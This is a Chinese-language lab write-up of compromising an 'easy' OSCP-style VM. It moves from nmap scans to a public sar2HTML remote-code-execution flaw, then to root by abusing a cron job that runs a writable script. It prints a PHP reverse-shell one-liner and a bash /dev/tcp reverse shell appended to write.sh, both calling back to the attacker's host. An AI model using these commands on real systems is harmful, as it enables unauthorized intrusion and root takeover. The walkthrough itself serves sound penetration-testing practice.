# 靶机描述

_这是一台标榜难度为简单的开源靶机，作者在描述中说，这台靶机很有 OSCP 风格，旨在帮助用户积累渗透测试方面的经验。_




# 信息收集

1. 主机发现

 当前 kali 的 IP 是 192.168.2.47。而目标的 IP 是 192.168.2.51。

 2. 端口扫描
 ```text
 # Nmap 7.99 scan initiated Mon Aug 10 15:56:47 2026 as: /usr/lib/nmap/nmap -sT --min-rate 10000 -oA nmapscan/TCPS 192.168.2.51
Nmap scan report for 192.168.2.51
Host is up (0.0011s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 00:0C:29:F5:5F:46 (VMware)
 ```

目标只开放了一个 80 端口。使用详细信息和默认脚本扫描测试结果。

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F5:5F:46 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```

探测 80 端口开放了一个默认页。

3. 漏洞脚本扫描

```
PORT   STATE SERVICE
80/tcp open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|_  /phpinfo.php: Possible information file
MAC Address: 00:0C:29:F5:5F:46 (VMware)
```

脚本枚举出网页的两个资源文件， robots.txt 揭示的网页路径。phpinfo.php 现在网站后端信息。


# WEB 渗透



robots.txt 告诉了我们网站的功能页面路径。而 phpinfo.php 告诉我们 php 的配置信息已经服务器的内核信息版本。



我们访问这个 sar2HTML 路径。



进行目录爆破看是否有其他隐含信息页面。


没有特别有意思的页面。这个 sar2HTML 依照网页描述来看是个工具。搜索一下是否有历史漏洞。



有远程 RCE 漏洞。这里有一个开源脚本。下载后使用。


我们将 payload 进行 url 编码后执行输入。成功获得立足点。

```shell
php -r '$sock=fsockopen("192.168.2.47",5566);system("sh <&3 >&3 2>&3");'
```



## 补充

其实也可以手工利用这个 RCE 漏洞。


将我们的payload 先进行 url 编码。然后放到 plot 参数后面拼接执行。





# 权限提升

获得立足点后，提升终端交换性和终端美化。在进行权限枚举的过程中，发现定时任务有 root 权限运行的任务。



脚本 finally.sh 就在我们的上一级目录。



root 用户会执行 finally.sh 脚本。而 finally.sh 脚本会执行 write.sh 脚本。如果我们在 write.sh 脚本中加入恶意命令，那么我们的命令就会以 root 身份执行，进而提权。我们当前 www-data 用户具备 write.sh 的全部权限。于是我们写入我们的提权命令，让 root 返回会话。

```shell
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.2.47/4444 0>&1'" >> write.sh
```



成功获得 root 权限,成功拿下这台靶机。查看 root.txt。




# 总结

通过主机发现和端口扫描，发现目标仅开放了 80 端口。扫描出了网站存在 sar2html 路径。通过公开漏洞利用，获得网站的初始立足点。经过权限枚举，发现以 root 身份运行的脚本 finally.sh。通过查看脚本发现，finally.sh 脚本会执行 write.sh 脚本。这个 write.sh 脚本成为了我们突破权限控制的突破口,最终,拿下整台靶机

